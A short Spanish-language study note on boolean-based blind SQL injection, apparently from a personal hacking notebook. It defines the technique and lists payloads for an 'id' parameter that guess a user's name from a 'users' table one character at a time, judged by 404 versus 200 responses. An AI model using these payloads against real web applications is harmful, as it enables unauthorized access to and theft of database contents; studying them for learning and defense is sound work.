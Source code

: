 ----------------
- Tags: #OWASP_TOP_10 #vulnerabilidad #hacking #sql  #exploiting 
----------
# Definición

> La **Inyección SQL basada en Booleanos** es un tipo de [[SQL Injection]] en el que los atacantes manipulan consultas en aplicaciones web para obtener información de la base de datos al evaluar respuestas verdaderas o falsas, lo que puede resultar en acceso no autorizado o robo de datos. 

El objetivo principal de esta inyección es intentar deducir caracteres concretos, según la evaluación de una condición.

Insertando algo como lo siguiente, podemos burlar el código, de manera que si obtenemos un código de error 404 significa que la primera palabra no es una a (97 en ascii), por lo que podríamos ir probando con todas las letras hasta encontrar la correcta :

```
#PROBANDO PRIMER CARÁCTER
id=9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=97)   # Error 404
id=9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=98)   # Error 404
id=9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=99)   # 200 Ok => La primera letra es la c

#PROBANDO SEGUNDO CARÁCTER
id=9 or (select(select ascii(substring(username,2,1)) from users where id = 1)=97)   # Error 404
id=9 or (select(select ascii(substring(username,2,1)) from users where id = 1)=97)   # Error 404
...
```

Utilizamos dicho principio para programar en python el script [[sqli.py]].